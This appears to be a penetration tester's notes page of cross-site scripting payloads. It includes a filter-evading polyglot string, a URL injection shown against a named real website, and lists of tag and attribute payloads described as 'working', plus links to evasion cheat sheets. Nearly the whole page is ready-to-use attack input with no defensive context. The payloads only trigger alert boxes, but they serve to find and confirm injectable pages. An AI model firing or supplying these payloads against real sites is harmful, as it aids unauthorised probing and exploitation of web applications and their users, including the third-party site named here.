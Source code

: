 # Payloads

An all in 1 XSS command

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Add this to a random url folder

```
/?ITG='"-->alert("ITG XSS")
e.g https://thymometrics.com/Styles/?nsextt=%27%22--%3E%3C/style%3E%3C/scRipt%3E%3CscRipt%3Ealert(%22ITG%20XSS%22)%3C/scRipt%3E
```

### Common working XSS payloads

```
onmouseover="prompt(1)">
<img src=x onerror=prompt(1);>
" onmouseover=prompt(971370) bad="
%3Cscript%3Ealert%2822%29%3C%2Fscript%3E&message=%3Cscript%3Ealert%2822%29%3C%2Fscript%3E
```

NETSPARKER - best tool other than burp

simple xss test for unsanatised html:

```
"><script>alert(/Xss/)</ScRIPT>
"><style><!-- </style> <img src=1 onerror=alert(xss)> 
"><svg/onload=alert(1)>  works on FF last version
```

### XSS cheat sheet

{% embed url="https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet" %}

### payloads that work on any browser

{% embed url="http://html5sec.org" %}

<figure><img src="../../.gitbook/assets/Fif0VqHUoAAj7Kp.jfif" alt=""><figcaption></figcaption></figure>
